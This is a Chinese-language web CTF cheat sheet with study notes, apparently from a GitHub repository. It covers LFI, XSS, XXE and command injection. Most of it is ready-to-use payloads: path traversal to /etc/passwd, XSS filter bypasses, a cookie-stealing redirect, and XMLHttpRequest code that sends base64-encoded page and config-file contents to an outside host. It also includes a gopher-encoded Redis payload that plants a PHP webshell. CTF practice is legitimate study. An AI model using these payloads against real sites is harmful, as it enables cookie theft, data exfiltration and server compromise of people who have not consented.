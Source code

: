 Web CTF CheatSheet & Learning
===

Directory
===
- [LFI](#LFI)
- [XSS](#XSS)
- [XML](#XML)
- [Command Injection](#Command-Injection)

Helpful Resource
===
- [Web CheatSheet](https://github.com/w181496/Web-CTF-Cheatsheet)

Learning Resource
===
- [HackmeCTF](https://hackme.inndy.tw/)
- AIS3 2019 Pre-exam 

# LFI
- 直接 `../../etc/passwd` 測試
- 其他方法
    - `../etc/passwd%00`
    - 查看 source code
        - php://filter/convert.base64-encode/resource
- 敏感文件
    - log `/var/log/...`
    - config `/etc/...`
    - history `~/.history`

# XSS
## type
- 反射型:
    - server 針對用戶輸入做回應
    - 通常傷害較低, 必須藉由點擊惡意連結才能達成攻擊
    - ex. `http://url?name=<script>alert(1)</script>`
- 儲存型:
    - 輸入的 payload 會存在 server, 如留言板的留言
- DOM:
    - 瀏覽器 DOM 解析惡意資料
    - ex.
        - `<img src='http://url/user-image'>`: payload 為 `user-image`, 正常
        - `<img src='' onerror=alert(1)'>`: payload 為 `' onerror=alert(1)`, 惡意

## payload
- `<script>alert(1)</script>`: 元老級 xss 測試 payload
- `<svg onload=alert(1)></svg>`
    - `<svg/onload=alert(1)></svg>`: 反斜線可以 bypass 空格限制
    - 另一種方式: 換行
        ```html
        <svg
        onload=alert(1)>
        ```
- `<img src=# onerror=alert(1)`: 圖片內嵌
- `<a href="javascript:alert(1)">g</a>`: 連結 call function
- `<iframe src="javascript:alert(1)"></iframe>`: iframe 內嵌
- alert`1`: 反斜線限制
- `&#x61;&#x62;...`: HTML entity 中 hex 編碼
    - `&#40;&#41;`: 為 decimal 編碼
    - `ex: <img src=x onerror=alert&#x28;1&#x29;>`
- `javascript:document.location.href('http://<ip>?cookie='+document.cookie);`: 跳轉頁面
- javascript encode
    - \73\72: decimal
    - \u0034: unicode
        - equal to `\u{34}`
    - \x3A: hex

## xmlhttp 內網請求
我們能利用 ajax xmlhttp 實現網頁跳轉請求
[PS. 有關 html header](https://notfalse.net/40/http-representation)
- GET 的 payload
    ```javascript
    xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
            document.location.href = "https://careertest.ncu.edu.tw?body="+btoa(xmlhttp.responseText);
        }
    }
    xmlhttp.open("GET", "request.php");
    xmlhttp.send();
    ```
- POST 的 payload
    ```javascript
    xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
            document.location.href = "https://careertest.ncu.edu.tw?body="+btoa(xmlhttp.responseText);
        }
    }
    xmlhttp.open("POST", "request.php", true);
    xmlhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xmlhttp.send("url=file:///var/www/html/config.html");
    ```
    - POST 必須加上 header `Content-Type` 來告訴 server content 的編碼方式
        - 常見是 `application/x-www-form-urlencoded`, 此 header 告訴 server POST form 是 key->value 的形式
    - onreadystatechange 為 send 事件的狀態碼, 4 為 complete.
    - `open(method, url, true/false)` true 為 async, 表不同步

## 打 redis
redis 是一個 in-memory key-value 的 database, 就像是 database 在做 cache, 能夠大大提昇效能
- 在沒認證機制下, 很容易被攻擊
- 在攻擊 redis, 可以使用 gopher 協議傳送 tcp stream
    - 格式為 `gopher:/ip:port/_ + payload`
    - payload 為 hex 編碼
- 可以透過 tcpdump 做測試
    ```shell
    tcpdump port 6379 -w <filename>
    ```
    - `*<array長度>` ex. set name test ==> \*3
    - `$<字串長>` ex. name ==> $4
- redis payload
    - source
        ```
        flushall
        config set dir /path/of/redis ## 設定 redis 儲存路徑
        config set dbfilename redis-filename ## 設定 redis 檔案名稱
        set webshell "<?php phpinfo(); ?>"
        save
        quit
        ```
    - get key
        ```
        KEYS *
        ```
    - url 編碼過得
        ```
        curl gopher://127.0.0.1:6379/_flushall%0D%0Aconfig%20set%20dir%20/path/of/redis%0D%0Aconfig%20set%20dbfilename%20redis-filename%0D%0Aset%20webshell%20%22%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%22%0D%0Asave
        ```
    - 注意
        - redis 都是以 \r\n （CRLF) 當結尾
        - 傳送到 server 會被 decode 一次, 所以需要 double url encode

## Get Data
- `document.cookie`: cookie
- `document.documentElement.innerHTML` source code
    - `btoa(document.documentElement.innerHTML)`: base64 後的
- `document.body.innerHTML`

# XML
- XML format
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE jerry[
<!ENTITY xxe SYSTEM "https://url/file.txt">
]>

<root>
&xxe;
</root>
```
- payload 需要 URL encode (&xxe 會炸掉)

# Command Injection
- `A;B`: 不管 A 是否正確, B 皆會執行
- `A&B`: A bg, B fg, 同步
- `A&&B`: A 做完換 B
- `A|B`: A 結果傳給 B
- `A||B`: A 失敗才會 B
- 當 `preg_match` multiple line mode 時(/m)
    - `^`: metacharacter, start of string
    - `$`: metacharacter, end of string
    - 在此 modifier, `preg_match` 只會判斷第一行
- php `header(url)` ==執行完== php 後跳轉至 url, 不過用 curl 抓, 可以抓到執行結果